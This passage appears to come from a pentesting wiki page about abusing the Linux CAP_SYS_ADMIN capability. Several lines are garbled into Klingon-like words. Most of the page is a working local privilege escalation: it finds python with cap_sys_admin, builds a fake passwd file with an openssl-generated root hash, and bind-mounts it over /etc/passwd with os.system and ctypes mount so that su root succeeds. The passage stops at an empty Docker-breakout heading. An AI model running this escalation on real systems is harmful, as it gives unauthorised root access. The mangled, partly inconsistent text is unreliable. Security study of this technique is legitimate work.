 ## CAP\_SYS\_ADMIN-ghItlh

**[`CAP_SYS_ADMIN`](https://man7.org/linux/man-pages/man7/capabilities.7.html)** is a highly potent Linux capability, often equated to a near-root level due to its extensive **administrative privileges**, such as mounting devices or manipulating kernel features. While indispensable for containers simulating entire systems, **`CAP_SYS_ADMIN` poses significant security challenges**, especially in containerized environments, due to its potential for privilege escalation and system compromise. Therefore, its usage warrants stringent security assessments and cautious management, with a strong preference for dropping this capability in application-specific containers to adhere to the **principle of least privilege** and minimize the attack surface.

**Example with binary**-ghItlh
```bash
getcap -r / 2>/dev/null
/usr/bin/python2.7 = cap_sys_admin+ep
```
Using python you can mount a modified _passwd_ file on top of the real _passwd_ file:

```python
import os

# Create a modified passwd file
modified_passwd = "root:x:0:0:root:/root:/bin/bash\nuser:x:1000:1000:user:/home/user:/bin/bash"

# Write the modified passwd file to a temporary location
with open("/tmp/passwd", "w") as f:
    f.write(modified_passwd)

# Mount the modified passwd file on top of the real passwd file
os.system("mount --bind /tmp/passwd /etc/passwd")
```

This will allow you to escalate privileges by modifying the user information in the passwd file.
```bash
cp /etc/passwd ./ #Create a copy of the passwd file
openssl passwd -1 -salt abc password #Get hash of "password"
vim ./passwd #Change roots passwords of the fake passwd file
```
je, **passwd** file yIlo' modified `/etc/passwd` DaH **mount**:
```python
from ctypes import *
libc = CDLL("libc.so.6")
libc.mount.argtypes = (c_char_p, c_char_p, c_char_p, c_ulong, c_char_p)
MS_BIND = 4096
source = b"/path/to/fake/passwd"
target = b"/etc/passwd"
filesystemtype = b"none"
options = b"rw"
mountflags = MS_BIND
libc.mount(source, target, filesystemtype, mountflags, options)
```
ghItlh **`su`** **root** **password** "password" **'e'** **'e'**.

**Example with environment (Docker breakout)**
